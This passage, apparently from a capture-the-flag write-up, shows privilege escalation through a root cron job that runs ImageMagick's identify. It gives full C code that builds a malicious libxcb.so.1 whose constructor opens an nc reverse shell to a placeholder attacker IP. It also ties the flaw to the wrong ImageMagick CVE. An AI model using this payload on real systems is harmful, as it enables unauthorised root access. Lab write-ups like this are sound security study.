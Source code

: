 ![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/Titanic37.png){:.align-center}

The output confirmed that `identify_images.sh` was executed periodically (every minute), implying that it was scheduled via a cron job running as root.

### **3. ImageMagick (CVE-2016-3714)**

The vulnerability in ImageMagick, known as **"ImageTragick"**, allows for arbitrary command execution by manipulating how it processes image metadata. Referred to this PoC of [Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8), it can be exploited by injecting a malicious shared library that gets loaded when `identify` is executed.

To exploit this, a malicious `libxcb.so.1` shared object was created with a reverse shell payload:

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker-ip> 4545 >/tmp/f");
    exit(0);
}
EOF
```

This compiled shared object was then placed in `/opt/app/static/assets/images/`. When the cron job executed the script, ImageMagick’s `identify` command processed the files in the directory. The malicious shared library was then loaded, triggering the payload and providing a reverse shell as `root`.
